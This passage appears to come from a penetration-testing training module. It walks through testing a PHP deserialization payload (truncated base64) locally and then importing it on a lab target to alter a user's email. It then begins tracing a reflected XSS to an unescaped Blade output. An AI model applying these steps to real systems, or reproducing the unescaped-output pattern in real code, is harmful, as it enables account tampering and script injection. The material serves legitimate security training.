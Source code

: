 ```php
print('ie-message => Imported settings for \'' . $userSettings->getName() . '\'');

// }

```

Now we should be able to test the exploit locally before running it against the live target. Passing the base64-encoded payload we generated as the argument to `target.php` we can see the values that the application would work with after unserializing:

```shell
php target.php TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRp...SNIP...WMiO3M6MTE6ImRlZmF1bHQuanBnIjt9

$user->name = pentest
$user->email = [email protected]
$user->password = $2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
$user->profile_pic = default.jpg

ie-message => Imported settings for 'pentest'

```

Everything looks good, so we can continue to re-run the attack against the live target.

#### Running against the Target

Pasting the Base64 string into `Settings` and hitting `Import Settings`, we get a confirmation message that the settings were imported, and looking at the `Update Settings` section, we can confirm that our email was updated to `[email protected]`. At this point, we can check the other pages if anything is different.

![](https://academy.hackthebox.com/storage/modules/169/2/6-import.png)

* * *

## Reflected XSS

We can see in the screenshot above that our username is displayed in the message after successfully importing a user. Using `grep` again, we can see that this message is generated in `app/Http/Controllers/HTController.php` and assigned to the `ie-message` variable:

```shell
grep -nr "Imported settings for '" .

./app/Http/Controllers/HTController.php:135: Session::flash('ie-message', "Imported settings for '" . $userSettings->getName() . "'");

```

Searching for the variable name `ie-message`, we see a few responses, but one sticks out:

```shell
grep -nr 'ie-message' .
...
./resources/views/settings.blade.php:53: <p class="text-success">{!! Session::get('ie-message') !!}</p>
...

```
